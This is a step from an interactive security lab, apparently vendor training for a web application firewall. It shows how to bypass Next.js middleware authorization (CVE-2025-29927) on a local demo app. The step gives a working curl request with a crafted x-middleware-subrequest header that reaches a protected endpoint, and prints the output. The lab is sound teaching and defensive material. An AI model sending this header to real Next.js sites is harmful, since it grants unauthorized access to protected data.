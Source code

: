 <!--
SPDX-FileCopyrightText: 2025 United Security Providers AG, Switzerland

SPDX-License-Identifier: GPL-3.0-only
-->

&#127919; In this step you will:

* Access the vulnerable Next.js demo application
* Bypass the Next.js authorization (CVE-2025-29927)

### Access the vulnerable Next.js demo application

> &#8987; Wait until the console on the right side shows `*** Scenario ready ***` before accessing the backend (otherwise you'll see an `HTTP 502 Bad Gateway` error)!

As outlined in [CVE-2025-29927 Next.js Authorization bypass analysis](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/) by JFrog Security team in March 2025, we use a vulnerable Next.js demo application to demonstrate the problematic behavior.

> &#128270; Initially the backend will be accessed unprotected (not using USP Core WAAP)

While you can [access the demo application]({{TRAFFIC_HOST1_8080}}/api/hello) using a browser, you'll see an `HTTP 401` response since no authorization was sent by the browser. Note that this small demo application for simplicity accepts a specific value used as `Authorization` Header (more details in the [demo application source code](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927/blob/main/middleware.js)).

Go ahead and make an HTTP GET request (without an authorization header) replicating the browser behavior:

```shell
curl -v http://localhost:8080/api/hello | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 401 Unauthorized
< content-type: application/json
< Vary: Accept-Encoding
< Date: Wed, 06 Aug 2025 14:10:05 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "error":"Unauthorized"
}
```

</details>
<br />

The application correctly responds with the message "unauthorized" (combined with HTTP Status Code 401). Now presenting the (dummy) authorization header, the backend responds with data (authorization code executed in Next.js middleware):

```shell
curl -v \
  -H "Authorization: my-jwt-token-here" \
   http://localhost:8080/api/hello \
   | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> Authorization: my-jwt-token-here
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:10:44 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

So far we've tested access to the backend (without USP Core WAAP protection) and verified the correct backend behavior with and without an authorization header.

### Bypass the Next.js authorization (CVE-2025-29927)

Because of CVE-2025-29927 present in multiple Next.js versions (greatly analyzed in this [blog post from JFrog](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/)) not having an authorization token does not guarantee denied access to the sensitive backend!

As seen here, by using the vulnerable Next.js version 14 (up to 14.2.24), where one can send a static HTTP header **completely bypassing the Next.js Middleware authorization**:

```shell
curl -v \
  -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
  http://localhost:8080/api/hello \
  | jq
```{{exec}}

<details>
<summary>example command output</summary>

```shell
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
> GET /api/hello HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.5.0
> Accept: */*
> x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
>
< HTTP/1.1 200 OK
< vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
< content-type: application/json
< Date: Wed, 06 Aug 2025 14:09:11 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host localhost left intact
{
  "message":"Hello, World"
}
```

</details>
<br />

Without an authorization header, this request got access to the "sensitive" area, completely bypassing the Next.js middleware authorization code!

Now let's see how [header filtering](https://docs.united-security-providers.ch/usp-core-waap/crd-doc/#corewaapservicespecheaderfiltering) **provided by USP Core WAAP** safeguards you in the next step!
